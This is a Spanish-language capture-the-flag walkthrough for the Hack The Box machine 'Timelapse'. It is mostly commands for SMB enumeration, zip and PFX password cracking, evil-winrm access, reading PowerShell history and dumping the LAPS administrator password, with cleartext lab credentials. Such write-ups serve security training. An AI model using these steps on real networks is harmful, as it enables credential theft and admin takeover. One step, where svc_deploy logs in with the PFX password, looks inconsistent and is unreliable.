 # Walkthrough para la Máquina "Timelapse" en Hack The Box

Este es un paso a paso detallado de cómo comprometí la máquina Timelapse en Hack The Box. Los recursos utilizados se mencionan al principio del walkthrough.

## Escaneo Inicial

- **Nmap:**
  ```
  nmap -p- -sC -sV -oN nmap_scan.txt 10.10.11.152
  ```

- **Enumeración SMB:**
  ```
  smbclient -N -L \\\\10.10.11.152
  smbclient \\\\10.10.11.152\\Shares
  ```

  Resultado: Se identificó un archivo zip accesible para todos llamado `winrm_backup.zip`.

## Descifrado de Archivo Zip

- **Descifrado con fcrackzip:**
  ```
  fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt
  ```

  Resultado: La contraseña encontrada fue `supremelegacy`.

- **Extracción de Archivo Zip:**
  ```
  sudo unzip winrm_backup.zip
  ```

## Conversión de Certificado PFX

- **Conversión y Obtención de Hash:**
  ```
  pfx2john legacyy_dev_auth.pfx > pfx_timelapse.hash
  john -w=/usr/share/wordlists/rockyou.txt pfx_timelapse.hash --rule /usr/share/john/rules/rockyou-30000.rule
  ```

  Resultado: La contraseña encontrada fue `thuglegacy`.

- **Conversión a Archivos PEM:**
  ```
  openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
  openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem
  ```

- **Copiar Contenido a Nuevos Archivos:**
  ```
  cp priv-key.pem legacy.key
  cp certificate.pem legacy.cert
  ```

## Acceso Inicial a la Máquina

- **Utilizando evil-winrm:**
  ```
  evil-winrm -S -k legacy.key -c legacy.cert -i 10.10.11.152
  ```

  Resultado: Se obtuvo el archivo `user.txt`.

## Escalada de Privilegios

- **Enumeración y Escalada:**
  ```
  PS: net user legacyy
  PS: whoami /user
  PS: whoami /priv
  ```

- **Análisis de PowerShell History File:**
  ```
  PS: echo $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\
  PS: cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\
  PS: cat ConsoleHost_history.txt
  ```

- **Ejecución de Comandos en PowerShell Remotamente:**
  ```
  PS: invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
  get-aduser -filter * -properties *
  ```

  Resultado: Se obtuvo información sobre el usuario `svc_deploy`.

## Acceso con Credenciales Privilegiadas

- **Conexión con evil-winrm como `svc_deploy`:**
  ```
  evil-winrm -u 'svc_deploy' -p 'thuglegacy' -i 10.10.11.152
  ```

- **Obtención de Información de Usuario con `Get-ADUser`:**
  ```
  PS: invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
  ```

  Resultado: `svc_deploy` es miembro del grupo `LAPS_Readers`.

## Extracción de Contraseña Administrativa

- **Extracción de Contraseña de Administrador:**
  ```
  PS: invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
  ```

  Resultado: Contraseña de Administrador obtenida (`b}1;qx7&tr}yW!5X(6b,ir&6`).

## Acceso como Administrador

- **Conexión con evil-winrm como `Administrator`:**
  ```
  evil-winrm -u 'Administrator' -p 'b}1;qx7&tr}yW!5X(6b,ir&6' -i 10.10.11.152 -S
  ```

  Resultado: Acceso como `Administrator` y obtención del archivo `root.txt`.

Este walkthrough proporciona una descripción estructurada de cómo comprometí la máquina Timelapse en Hack The Box. ¡Espero que sea útil para mejorar tus habilidades en ciberseguridad!